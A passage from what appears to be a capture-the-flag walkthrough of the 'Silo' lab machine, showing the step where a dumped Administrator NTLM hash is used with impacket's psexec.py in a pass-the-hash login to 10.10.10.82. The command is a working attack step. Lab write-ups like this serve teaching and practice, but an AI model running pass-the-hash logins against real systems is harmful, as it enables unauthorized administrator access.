 Now use the above hash for `Administrator` to login:

```bash
psexec.py -hashes "aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7" administrator@10.10.10.82
```

![root4](./silo/root4.png)